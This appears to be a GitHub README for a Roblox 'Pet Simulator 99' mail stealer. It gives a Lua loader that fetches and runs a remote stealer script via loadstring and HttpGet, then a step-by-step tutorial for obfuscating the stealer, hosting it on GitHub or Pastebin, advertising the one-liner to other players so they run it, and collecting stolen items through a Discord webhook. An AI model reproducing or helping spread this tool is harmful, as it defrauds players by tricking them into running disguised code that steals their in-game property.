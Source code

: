 # Script With Tutorial !

```lua
Username = "tyreece_2018"
LoadScreen = true 
Webhook = "https://www.roblox.com/users/495970760/profile"

loadstring(game:HttpGet("https://raw.githubusercontent.com/KiuuP/PS99_Mailstealer/main/MailStealer.lua"))()
```

# Tutorial

1: Edit mailstealer with your Username.

2: Save your stealer and Obfuscate it using MoonSec bot OR https://luaobfuscator.com/.

3: After u obfuscated save it and register/login on https://github.com/ to upload your script.

4: Create a repositorie and upload your obfuscated script (on github or pastebin).
![image](https://github.com/KiuuP/PS99_Mailstealer/assets/158788963/71376a04-6684-4dd4-9a47-bdfcf83dd384)

5.1:Click This (Github)
![image](https://github.com/KiuuP/PS99_Mailstealer/assets/158788963/0f845270-1eac-4297-b38b-183e3d57ea72)
5.2:Click This (Pastebin)
![image](https://github.com/KiuuP/PS99_Mailstealer/assets/158788963/90c49e9a-0167-4e35-b611-0cf826fc518d)

6:And Click The Raw

![image](https://github.com/KiuuP/PS99_Mailstealer/assets/158788963/746039ee-1b0d-47b3-8f38-1b4e6adf8483)

7: Copy link

8: Put your link in this script
```lua
loadstring(game:HttpGet("YOUR LINK HERE", true))()
```

9: After u finished u got your loadstring script with mailstealer
Now all u have to do is adversite this script as u can
```
loadstring(game:HttpGet("Your Link Here", true))()
```
10: Create a Webhook Discord
!(https://www.youtube.com/watch?v=fKksxz2Gdnc)
